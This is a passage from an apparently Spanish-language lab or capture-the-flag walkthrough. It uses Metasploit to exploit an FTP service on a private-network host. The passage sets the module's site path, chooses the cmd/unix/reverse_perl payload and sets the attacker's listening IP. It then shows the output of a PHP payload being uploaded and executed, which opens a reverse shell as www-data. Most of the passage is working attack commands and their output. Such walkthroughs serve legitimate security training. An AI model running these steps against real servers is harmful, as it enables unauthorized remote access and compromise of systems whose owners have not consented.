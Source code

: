 Vamos a ponerte en el `SITEPATH` esa ruta ya que viene por defecto hasta el `www` y puede ser que no tenga permisos de escritura el usuario que lo este ejecutando en la maquina, por lo que para asegurar lo haremos de esa forma, ya que lo que va a injectar es un archivo para podernos crear una `reverse shell`.

```shell
show payloads
```

Y elegiremos el siguiente:

```shell
set payload payload/cmd/unix/reverse_perl
```

Despues configuramos con nuestra IP:

```shell
set LHOST 192.168.16.128
```

Y lo ejecutamos poniendo `exploit`.

```
[*] Started reverse TCP handler on 192.168.16.128:4455 
[*] 192.168.16.129:80 - 192.168.16.129:21 - Connected to FTP server
[*] 192.168.16.129:80 - 192.168.16.129:21 - Sending copy commands to FTP server
[*] 192.168.16.129:80 - Executing PHP payload /rJIMs.php
[+] 192.168.16.129:80 - Deleted /var/www/html/rJIMs.php
[*] Command shell session 3 opened (192.168.16.128:4455 -> 192.168.16.129:41546) at 2024-11-14 04:35:04 -0500

whoami
www-data
```
